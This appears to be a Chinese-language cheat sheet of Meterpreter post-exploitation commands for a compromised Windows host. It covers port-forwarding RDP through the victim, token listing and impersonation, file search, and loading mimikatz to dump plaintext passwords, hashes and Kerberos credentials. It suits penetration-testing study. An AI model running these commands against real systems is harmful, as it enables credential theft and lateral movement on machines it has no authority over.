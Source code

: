 ```
portfwd add -l 3389 -r 192.168.11.13 -p 3389                   #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
```

> 然后我们只要访问本地的3389端口就可以连接到目标主机的3389端口了

### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码

wdigest    \\用户储存在内存里的明文密码。

wdigest(获取WDigest凭据)

msv （获取msv凭据（hash））

kerberos （获取kerberos）
```